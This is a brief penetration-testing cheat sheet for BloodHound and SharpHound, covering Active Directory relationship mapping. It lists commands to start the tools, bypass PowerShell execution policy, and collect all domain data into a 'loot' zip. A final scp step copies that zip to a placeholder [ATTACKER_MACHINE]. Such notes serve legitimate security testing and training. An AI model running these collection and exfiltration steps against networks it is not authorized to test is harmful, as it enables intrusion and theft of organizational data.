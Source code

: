 ```yaml
---
title: BLOODHOUND
summary: A tool to reveal hidden and unintended relationships within an Active Directory or Azure environment.
description: A tool to reveal hidden and unintended relationships within an Active Directory or Azure environment.
---
```


**[https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)**

## Start (Attacker Machine)


 > 
 > **<font color=red>sudo neo4j console</font>**</br>
 > Start Neo4j (then connect on http://localhost:7474/).
 > 
 > **<font color=red>bloodhound</font>**</br>
 > Start Bloodhound.

## Loot (Target Machine)

**https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors**

 > 
 > **<font color=red>powershell.exe -ExecutionPolicy bypass</font>**</br>
 > Bypass PowerShell script execution restrictions.
 > 
 > **<font color=red>. .\SharpHound.ps1</font>**</br>
 > Initialize SharpHound.
 > 
 > **<font color=red>Invoke-Bloodhound -CollectionMethod All -Domain</font> \[TARGET_DOMAIN\] <font color=red>-ZipFileName</font> BloudhoundLoot.zip**</br>
 > Run SharpHound.

 > 
 > **<font color=red>scp</font> BloudhoundLoot.zip myUser<font color=red>@</font>\[ATTACKER_MACHINE\]<font color=red>:</font>/home/myUser/**</br>
 > Bring back the loot to the attacker's machine, and open it in Bloodhound Web UI.
